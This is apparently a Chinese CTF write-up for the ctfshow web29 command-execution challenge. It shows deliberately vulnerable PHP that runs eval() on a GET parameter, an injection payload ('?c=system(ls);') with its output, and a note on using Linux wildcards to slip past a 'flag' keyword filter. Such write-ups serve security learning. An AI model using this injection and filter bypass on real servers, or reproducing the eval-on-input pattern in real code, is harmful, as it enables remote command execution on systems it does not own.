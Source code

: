 ```yaml
---

 layout:   post        # 使用的布局（不需要改）
 title:    从0开始学web之命令执行  # 标题 
 subtitle:   ctfshow    #副标题
 date:    2020-10-30    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                

   - CTF

---
```


## web29~过滤关键字

```
命令执行，需要严格的过滤
```

源码：

```php
 <?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

* preg_match — 执行匹配正则表达式

题目限制了不能出现 `flag`.

构造 `?c=system(ls);` 页面回显：

```
flag.php index.php 
```

绕过 flag ,通配符绕过。

> linux 中有一些通配符。
>
> `*` 代表任意字符 0个或多个
>
> `?` 代表任意字符 1 个
>
> `[abcd]` 匹配abcd中一个字符
>
> `[a-z]` 匹配范围 a-z
